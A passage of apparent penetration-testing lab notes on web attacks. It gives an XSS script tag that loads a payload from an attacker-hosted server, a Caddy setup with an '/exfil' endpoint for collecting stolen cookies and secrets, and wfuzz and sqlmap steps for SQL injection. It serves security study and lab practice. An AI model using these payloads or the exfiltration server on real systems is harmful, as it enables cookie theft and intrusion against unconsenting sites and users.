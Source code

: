 Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`


<b>Remember if any of your payloads don't seem to work, take any script code you want to run and place it in the browser console to verify it's working</b>

### Cross Origin Attacks

No specific CSRF scenarios were ever encountered in the labs, however you  may run into issues with CORS and self hosted payloads, such as external XSS.js files. The easiest way to fix this after much research is to use the http web server called Caddy

1. Install: sudo apt get install caddy
2. From within the directory where your xss.js file lives, create a file called Caddyfile
3.  Contents of Caddyfile
 ```
http://yourip:80

file_server browse

header Access-Control-Allow-Origin *
header Access-Control-Allow-Methods *
header Access-Control-Allow-Headers *

log {
        output file caddylog
        format json
}
respond /exfil 200
```
Note that /exfil is the URL endpoint you want any cookie / secrets stealers to call back to 

To host your xss.js file using Caddy, from within the directory that contains the Caddyfile and xss.js file run `caddy run` 

Then to view any incoming requests / logs you can `cat caddylog` or to view just the pertinent information run `tail -f caddylog | jq '.request | del(.headers)'`

### SQLi

<b>wfuzz to test for sqli</b>
GET: `wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

POST: `wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

If you need to add any cookies
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php" -H "Cookie: PHPSESSID=2feb03393e44b1d0c0f20a11f62a8d1f`
--hh hides content length specified 
--hc hides status codes specified

<b>Sqlmap</b>
First, capture the request you are interested in via Burpsuite, send the request to repeater, right click on the request and select "Copy to file" give the file a name such as sqli_login_page
